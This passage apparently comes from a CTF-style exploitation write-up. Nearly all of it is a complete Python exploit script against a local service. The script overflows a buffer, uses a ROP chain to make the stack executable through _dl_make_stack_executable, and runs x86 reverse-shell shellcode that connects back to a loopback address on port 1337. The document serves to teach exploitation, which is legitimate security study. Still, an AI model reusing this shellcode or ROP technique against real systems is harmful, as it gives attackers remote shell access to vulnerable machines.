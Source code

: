 Looking for the other required one is left as an exercice for the reader.

Here is our full exploit:

```
#!/usr/bin/python

import struct
import socket

# Reverse shell on localhost:1337
shellcode = (b"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80"
             b"\x92\xb0\x66\x68"
             b"\x7f\x01\x01\x01" # ip addr
             b"\x66\x68"
             b"\x05\x39" # port
             b"\x43\x66\x53\x89"
             b"\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0"
             b"\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73"
             b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80");

def rop(*args):
        return struct.pack('I'*len(args), *args)


s = socket.create_connection(('localhost', 5555))

s.recv(1337)

payload = rop(1337) + 'A' * 64  # padding

# set __stack_prot to 7
payload += rop(
    0x08070f9c, # pop edx; ret;
    0x080ecfc4, # __stack_prot
    0x08083ca3, # pop ecx; ret;
    0xffffffff, # -1
    )
for i in range(0, 8):
    payload += rop(0x080de4ee) # inc ecx; ret; 8 times
payload += rop(0x080e5efa) # add dword ptr [edx], ecx

# make our stack executable, and jump to the shellcode
payload += rop(
    0x080bf3b6,  # pop eax; ret;
    0x080ecf64,  # _libc_stack_end
    0x080a53d0,  # _dl_make_stack_executable
    0x080c4bb3   # call esp
    )

payload += shellcode

s.send(payload + '\n')
```

And now, feel free to check what every command does by appending `?` to it, and try to recreate this exploit from scratch ;)
